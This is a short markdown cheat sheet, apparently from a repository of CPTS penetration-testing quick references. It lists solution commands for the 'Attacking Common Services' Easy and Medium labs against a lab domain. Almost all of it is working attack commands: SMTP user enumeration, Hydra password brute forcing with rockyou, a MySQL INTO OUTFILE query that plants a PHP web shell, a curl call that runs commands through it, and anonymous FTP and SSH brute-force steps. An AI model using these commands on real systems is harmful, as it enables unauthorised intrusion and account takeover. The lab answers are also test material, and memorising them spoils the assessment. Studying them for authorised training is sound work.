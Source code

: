 https://github.com/missteek/cpts-quick-references/blob/main/assessments/Password%20Attacks%20Lab%20-%20Hard.md


#### Attacking Common Services - Easy:
```
UserEnum:       smtp-user-enum -M RCPT -U users.txt -D inlanefreight.htb -t $ip
PW Bruteforce:  hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt $ip smtp
Login MySQL:    mysql -h $ip -u <user> -p <password>
SQL RCE:        SELECT "<?php if(isset($_GET['cmd'])){ echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>'; } ?>" INTO OUTFILE 'C:/xampp/htdocs/cmd.php';
RCE:            curl http://$ip/cmd.php?cmd=whoami
```
#### Attacking Common Services - Medium:
```
nmap scan:      nmap $ip -p- --open -o nmap.txt | grep '/tcp' | cut -d'/' -f1 | paste -sd, -
ftp anonymous:  ftp $ip 30021
download file:  get mynotes.txt
PW Bruteforce:  hydra -l simon -P mynotes.txt $ip ssh OR hydra -l simon -P mynotes.txt $ip pop3
Login:          ssh simon@$ip
```

#### Attacking Common Services - Hard:
